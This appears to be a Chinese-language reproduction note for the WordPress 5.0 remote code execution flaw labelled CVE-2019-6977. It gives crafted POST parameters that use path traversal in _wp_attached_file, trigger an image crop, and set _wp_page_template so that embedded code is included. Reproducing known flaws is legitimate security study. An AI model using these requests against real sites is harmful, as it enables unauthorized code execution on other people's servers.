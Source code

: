 ```yaml
---
title: "（CVE-2019-6977）WordPress 5.0 rce"
id: zhfly3262
---
```


# （CVE-2019-6977）WordPress 5.0 RCE

## 一、漏洞简介

漏洞条件：拥有一个author权限的账号

## 二、漏洞影响

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release 5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress 5.1-alpha-44280更新后未更新的4.9.9~5.0.0的WordPress都受到该漏洞影响。

## 三、复现过程

传图片

![image](../img/668d2784c936da8449fef4723e67db4c.png)

改信息

![image](../img/bb617269ef1df81775857cec3cd4987c.png)

保留该数据包，并添加POST

```
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg 
```

触发需要的裁剪

![image](../img/0851f1b60ca250b81c039b5e0ae8244f.png)

裁剪

![image](../img/86a327bed10a54ac3f8ad13700876964.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

```
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100 
```

触发需要的裁剪

![image](../img/5e3bf70381eccf11ed2346544a9cacd5.png)

图片已经过去了

![image](../img/cabe4f9de6a869200a437b1b7b7a5710.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

```
&meta_input[_wp_page_template]=cropped-32.jpg 
```

![image](../img/c66347d3f447eb0cfd89ba57702ddd5a.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![image](../img/e28ec5227b43186f828c7071c31b5358.png)

## 四、参考链接

> https://www.freebuf.com/vuls/196514.html